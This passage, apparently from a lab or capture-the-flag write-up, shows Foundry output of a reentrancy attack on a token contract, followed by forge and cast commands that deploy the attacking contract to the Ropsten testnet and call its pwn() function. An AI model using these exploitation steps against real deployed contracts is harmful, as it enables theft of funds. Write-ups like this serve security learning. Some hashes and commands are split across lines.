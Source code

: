     └─ <font color="#4E9A06">← </font>()  


<font color="#4E9A06">Script ran successfully.</font>    
Gas used: 278997  
== Return == 
== Logs ==   
  seniority: 1    
  seniority: 2    
  seniority: 3    
  seniority: 4    
  seniority: 5    
  seniority: 6    
  seniority: 7    
  seniority: 8
  seniority: 9    
  seniority: 10
  </pre>

This output is typical of a reentrancy attack.

The final step is to deploy our contract to the **ropsten** blockchain and execute the pwn function. While deploying, ether has to be sent to the contract.

```bash
$ forge create --rpc-url https://ropsten.infura.io/v3/<API key>  --private-key <private key>
a4b7b56f3870d40feb26 test/token.t.sol:TokenTest --value 100 # value is required to send ether to the contract. Otherwise the buyHLB cannot work.
...
Deployer: 0xbafe3de2e4fbd28ce3d71db73b429cf13359f9e8
Deployed to: 0x0afd7d482b51834b1cad91c313d21425f1ad3f61
Transaction hash: 0xa927b9bc266083aed45944efef8bd147ebd0a50e681bd32c473beb1d4e7e2c3
7
```

The function pwn can then be called.

```bash
$ cast send 0x0afd7d482b51834b1cad91c313d21425f1ad3f61 "pwn()"
  --rpc-url https://ropsten.infura.io/v3/<API key> --private
-key <private key>
...
transactionHash         0x17621fe1437f1ec5e6f9533aaf864d7a60bae4d54293f21d5290982dc
42ea2bd
...
```
